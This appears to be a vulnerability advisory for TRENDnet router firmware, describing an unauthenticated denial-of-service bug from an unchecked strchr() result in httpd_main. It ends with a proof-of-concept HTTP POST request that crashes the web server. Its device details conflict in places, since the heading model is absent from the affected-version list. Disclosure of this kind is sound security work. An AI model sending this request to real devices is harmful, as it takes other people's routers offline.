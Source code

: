 # TEW-652BRP

## Firmware version
TEW-634GRU devices trhough 1.01b14
TEW-673GRU devices through 1.00b40


## Description
Multiple TRENDnet devices can be attacked due to an unauthenticated denial-of-service vulnerability in the httpd web server because the URL path processing lacks a check on strchr return value.

## Detail
The vulnerability is located in the `httpd_main` function of the `httpd` web server of affected devices.

The vulnerable code directly access the returned string pointer of `strchr()` function call, which can be nullable. Consequently, an attacker can construct a URL path that does not contain the expected character `.` to trigger the vulnerability.

The following is the vulnerable code:

![vulnerable_code](soap_action_overflow.png)

We've constructed a PoC to successfully trigger the vulnerability, which led to a crash in the web server:

```txt
POST /vct_lan_00 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.143 Safari/537.36
Content-Type: 104
Content-Length: 49

html_response_page=wzqwzqwzq&p_default_key=
```
